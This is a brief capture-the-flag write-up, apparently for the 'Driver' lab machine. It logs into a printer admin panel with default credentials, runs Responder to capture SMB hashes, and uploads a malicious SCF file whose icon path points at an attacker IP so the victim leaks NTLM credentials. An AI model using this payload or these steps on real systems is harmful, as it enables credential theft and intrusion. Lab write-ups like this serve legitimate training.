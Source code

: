 # Driver

1. Log into Print Server <admin:admin>

2. Startup SMB server
````
responder --lm -v -I tun0
````

3. Upload the malicious file to coordinate the target connecting back with SMB credentials

steal-hash.scf
````     
[Shell]
Command=2
IconFile=\\10.10.14.7\share\pentestlab.ico
 
[Taskbar]
Command=ToggleDesktop
````





[Shell Command File](https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/)
